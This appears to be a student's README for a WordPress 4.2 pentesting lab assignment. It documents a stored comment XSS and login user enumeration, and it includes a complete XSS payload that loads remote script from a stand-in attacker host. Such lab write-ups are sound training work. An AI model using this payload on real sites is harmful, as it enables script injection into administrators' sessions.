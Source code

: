 # Week7CyberSecurity

# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total
Started:  3:10pm 4/10/18 stopped at 10:00PM 4/10/18
Started:  1:50pm 4/11:18 stopped at 

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Vulnerability 7945
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: REFER TO FirstExploit
  - [ ] Steps to recreate:
  I went to a location where I could leave a comment then pasted <a title='xxx onmouseover=eval(unescape(/var%20a%3Ddocument.createElement%28%27script%27%29%3Ba.setAttribute%28%27src%27%2C%27https%3A%2f%2fattacker.site%2fexploit.js%27%29%3Bdocument.head.appendChild%28a%29/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
and I went to http://bytesizematters.com/ and typed out more than 64KB of the character "A", Then I copied it and pasted it 
into the Comment box afterwards I posted the comment. Sign into admin and viewed Network tab under developer tools for exploit
  - [ ] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress2.html)

1.  Vulnerability User Enumeration
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: Not Specified
  - [ ] GIF Walkthrough:  REFER TO FirstExploit
  - [ ] Steps to recreate: Whenever the attacker is at the login screen, they can time is and series of names and a password incoreect or not and Wordpress will state whether or not the user exists
  - [ ] Affected source code:
    - [Link 2](https://dev-notes.eu/2016/09/preventing-user-enumeration-in-wordpress/)

1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version: 4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Physically installing the application was a challenge. Next is using WordPress for the first time.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
